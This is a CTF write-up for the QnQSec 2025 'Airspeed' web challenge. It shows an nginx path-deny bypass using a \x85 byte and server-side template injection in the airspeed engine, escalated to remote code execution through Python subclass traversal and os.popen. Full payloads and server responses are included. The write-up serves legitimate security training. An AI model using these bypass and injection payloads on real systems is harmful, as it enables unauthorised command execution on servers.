


# WhiteDukesDZ - QnQSec CTF 2025 Writeup: Airspeed Web Challenge




We were also provided with:
- `docker-compose.yml`
- `nginx.conf`
- `src` folder containing the web application source code

---

## Application Analysis

After analyzing `nginx.conf`, we can see there is a `/debug` endpoint that is denied. Accessing this endpoint directly results in a 403 status code response (Forbidden).

```conf
location = /debug {
    deny all;
    return 403;
}
```

By analyzing the web application files:

- We notice from the Dockerfile that `readflag.c` was compiled and placed in the root directory. Running `/readflag` from the web application container will display the flag.

- We notice from `app.py` that the web application uses the `airspeed` template engine.

- Nothing special was found in the other `app.py` endpoints since there are no user inputs, except for the `/debug` endpoint. When posting a JSON body with `name` set to a `value`, we receive back `Hello, value`:
    
    ```python
    @app.route('/debug', methods=['POST'])
    def debug():
        name = request.json.get('name', 'World')
        return airspeed.Template(f"Hello, {name}").merge({})
    ```

- We notice from `app.py` that the Flask server is run with `debug=True`.

    ```python
    if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
    ```

### Security Observations

- While the `/debug` endpoint is denied by the nginx server and returns a 403 response when accessed directly, the web application server (Flask) doesn't block this endpoint at all. For example, with a normal GET request to `/` and a POST request to `/debug` with a JSON body of `name=manini`, this is what actually happens:




### The Workaround

If we find a way to confuse nginx into treating our endpoint as different from `/debug`, while simultaneously making Flask interpret it as `/debug`, we can successfully access the forbidden endpoint. We'll attempt to find a discrepancy between nginx and Flask by testing all possible bytes after `/debug`. Our request will be to `/debug` + `byte`. To automate this process, we created a Python script. See `solution/find_disrepency.py`. (Note that we used `socket` instead of `requests` so our added bytes don't get normalized).

After running `solution/find_disrepency.py`, we got:

```bash
└─$ python3 find_disrepency.py
Bypass found with byte \x85
```

When requesting `/debug\x85` (at the byte level), nginx sees `/debug\x85` != `/debug`, but the Flask server interprets `/debug\x85` == `/debug` and serves the response. Let's test this (see `solution/simple_manini_post.py`).

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 16:53:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Hello, manini
```
Perfect. Notice that our provided `name=manini` is reflected back.

### Exploring Server-Side Template Injection

As mentioned earlier, the web application uses `airspeed` as its template engine. What if we can inject something that gets evaluated instead of just `manini`?

After reviewing the `airspeed` documentation at http://velocity.apache.org/engine/1.7/user-guide.html, we can try `name=#set( $foo = 7*7 )\n$foo`. After testing:

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 17:12:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: close

Hello, 49
```

Yes! The web application is vulnerable to SSTI. Our `7*7` expression was evaluated to `49`.

---

## Remote Code Execution

To get the flag, we need to run `/readflag` on the challenge instance. We already know the web application is vulnerable to SSTI, so we need to find a path to remote code execution.

Using `name=#set($s='')#set($base=$s.__class__.__mro__[1])#foreach($sub in $base.__subclasses__())$foreach.index: $sub\n#end` allows us to list available subclasses with their respective indexes. After execution, we have:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 00:17:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 20778
Connection: close

Hello, 0: <class 'type'>
...
479: <class 'jinja2.utils.Cycler'>
...
```

## Solution

Since `cycler` is available, we can use it to execute commands on the host server using `cycler.__init__.__globals__.os.popen('/readflag').read()`. This can be achieved with a payload like:

```json
{
    "name": "#set($x='')\n#set($cycler=$x.__class__.__mro__[1].__subclasses__()[479])\n#set($init=$cycler.__init__)\n#set($globals=$init.__globals__)\n#set($os=$globals.os)\n#set($popen=$os.popen('ls'))\n$popen.read()"
}
```

After running `solution/exploit.py`, we get:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 exploit.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 01:18:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 41
Connection: close

Hello, QnQSec{n0w_th1s_1s_th3_r34l_f14g}
```

